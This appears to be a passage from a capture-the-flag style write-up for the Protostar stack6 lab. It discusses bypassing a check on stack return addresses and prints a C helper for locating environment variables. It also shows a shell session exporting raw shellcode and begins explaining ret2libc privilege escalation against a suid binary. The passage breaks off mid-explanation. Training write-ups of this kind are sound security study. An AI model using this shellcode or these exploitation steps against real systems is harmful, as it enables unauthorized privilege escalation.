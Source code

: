 The program is similar to **stack5** but in this case we are not allowed to jump to stack addresses (0xbf000000) so we cannot place our payload there. Chances are:
- Place it on an enviroment variable
- ret2libc
- ROP
- jmp esp
- ...

First approach is to place the payload in an environment varaible, we will need to know the address of our varaible to jump there. We can use this program for that:

```lang-clike line-numbers 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
	char *ptr;
	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```

We will be using the same shellcode than in stack5:

```lang-bash line-numbers 
user@protostar:~$ export SHELLCODE=\xbd\x9b\x77\x1c\xf3\xdd\xc0\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x14\x31\x6b\x14\x83\xeb\xfc\x03\x6b\x10\x79\x82\x2d\x28\x8a\x8e\x1d\x8d\x27\x3b\xa0\x98\x26\x0b\xc2\x57\x28\x37\x55\x3a\x40\xca\x69\xab\xcc\xa0\x79\x9a\xbc\xbd\x9b\x76\x5a\xe6\x96\x07\x2b\x57\x2d\xbb\x2f\xe8\x4b\x76\xaf\x4b\x24\xee\x62\xcb\xd7\xb6\x16\xf3\x8f\x85\x66\x42\x49\xee\x0e\x7a\x86\x7d\xa6\xec\xf7\xe3\x5f\x83\x8e\x07\xcf\x08\x18\x26\x5f\xa5\xd7\x29
user@protostar:~$ gcc envaddr.c -o envaddr
user@protostar:~$ chmod +x envaddr
user@protostar:~$ ./envaddr SHELLCODE
SHELLCODE is at address 0xbffff877
```

Oh, damn it! its in the stack address space so it wont work. Lets try the retlibc approach. Here we have a number of options. We can execute **system("/bin/bash")** but as we are exploiting a suid binary, we will drop priviledges. The other options is to use **execl(“/bin/bash”, “/bin/bash”, 0)**. The problem with this approach is that we cannot inject the **"0"** since **gets()** would consider it as the end of the user input. There is a technique to avoid this. We can use **printf** to write the **\x00** for us in the right position using **%n**

If you are not familiar with **ret2libc** this is how it works. You overwrite the return address with a libc function so it gets executed. At the end of the libc function, there will be a **ret** instruction that will pop the next 4 bytes in the stack and transfer the exceution to the address popped. Its important to note that when the **libc** function starts its execution it will expect its arguments in the regular position, thats it, after the ret address. So we have to prepare the stack like:
